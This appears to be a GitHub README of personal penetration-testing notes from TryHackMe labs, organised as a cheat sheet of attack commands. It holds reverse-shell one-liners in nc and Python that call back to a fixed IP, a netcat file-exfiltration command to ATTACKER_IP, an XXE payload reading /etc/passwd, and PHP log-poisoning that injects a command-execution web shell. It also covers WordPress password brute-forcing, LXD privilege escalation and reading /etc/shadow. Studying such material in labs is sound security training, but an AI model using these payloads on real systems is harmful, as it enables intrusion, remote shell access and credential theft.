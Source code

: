 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe platform. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Introduction
In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.

## Tricks
Here are some handy tricks to enhance your pentesting workflow:

---
#### Spawn a fully interactive shell:
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
#### Read file:
```
xxd -r file.txt 
base64 /etc/shadow | base64 -d
```
`l\s`: Equivalent to `ls`
#### Decompress a gzip file:
```
gzip -d file.gz
```

---
#### Reverse shells
* nc
```nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```
* python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
* python3
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

---
#### Set appropriate permissions for `id_rsa` file before usage:
```linux
chmod 600 id_rsa
```

---
#### File Transfer on `Netcat`

1. To download a file on the remote shell:
```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```
2. To receive the file on the attacker machine:
```nc
nc -l ATTACKER_PORT > [output_file_path]
```
#### Transfer files using `scp`:
```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
```
---
### Web
#### Discover hidden directories using `wfuzz`:
```linux
wfuzz -w /usr/share/dirb/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.47.7/island/2100/FUZZ.ticket
```
#### Brute force wordpress
```
wpscan --url http://target_on_wp.com/ -e u -P /usr/share/wordlists/rockyou.txt
```
#### Example of XXE 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```
#### php local file inclusion
```
http://10.10.62.183/?view=php://filter/read=convert.base64-encode/resource=dog/../index
curl "http://10.10.62.183/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
http://10.10.62.183/?view=dog/../../../../var/log/apache2/access.log&ext&cmd='command'
```
---
###  Encoding techniques:
- [splitbrain](https://www.splitbrain.org/_static/ook/)
- [hashes](https://hashes.com/en/tools/hash_identifier)
- [md5hashing](https://md5hashing.net/hash)
- [cyberchef](https://gchq.github.io/CyberChef/)
---
### Privilege Escalation:
#### LXD container exploitation:
```
wget archive
lxc image import ./archive --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```
#### information gathering
```
cat /proc/version
cat /etc/issue
ps
env
sudo -l
hystory
ifconfig
ip route
uname -a
netstat # -at -l -t -tp -i
find / -writable 2>/dev/null
find / -mtime 10 #find files that were modified in the last 10 days
find . -name flag1.txt
find / -type d -name config #find the directory named config under “/”
find / -type f -perm /4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null #compare executables on this list with GTFOBins
getcap -r / 2>/dev/null
cat /etc/exports #file sharing
```
####  Automated Enumeration Tools
* [linPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [linEnum](https://github.com/rebootuser/LinEnum)
* [LES](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* [linux Priv Checker](https://github.com/linted/linuxprivchecker)
---

### Windows
<details><summary> Local User and Group Management </summary>
It is a shell application to manage Windows system administrator applications.

```
lusrmgr.msc
```
</details>
<details> <summary> System Configuration utility </summary>

for diagnose startup issues

```
MSConfig
```
</details>
<details> <summary> Task Manager </summary>

to manage (enable/disable) startup items. 
```
taskmgr
```
</details>
<details> <summary> User Account Control </summary>
helps prevent unauthorized changes (which may be initiated by applications, users, viruses, or other forms of malware) to an operating system

```
UserAccountControlSettings.exe
```
</details>
<details> <summary> Computer Management </summary>
the process of managing, monitoring and optimizing a computer system for performance, availability, security

```
compmgmt
```
</details>
<details> <summary> System Information </summary> 
(gathers information about your computer and displays a comprehensive view of your hardware, system components, and software environment, which you can use to diagnose computer issues.)

```
msinfo32
```
</details>
<details> <summary> Resource Monitor </summary>
displays per-process and aggregate CPU, memory, disk, and network usage information, in addition to providing details about which processes are using individual file handles and modules

```
resmon
```
</details>
<details> <summary> Windows Registry </summary>
central hierarchical database used to store information necessary to configure the system for one or more users, applications, and hardware devices

```
regedit
```
</details>
<details> <summary> SMB discovery </summary>
open SMB shares

```
smbclient -L 10.10.251.241
```

scan with nmap

```
nmap -p 139,445 -Pn -script smb-enum* 10.10.251.241
nmap -p 139,445 -Pn -script smb-vuln* 10.10.251.241
```

connect with smbclient

```
smbclient \\\\10.10.251.241\\nt4wrksv
```

</details>
---

### links
* [database with CVE exploits](https://cvexploits.io/)
* [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
* [reverse shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
---
Happy hacking!
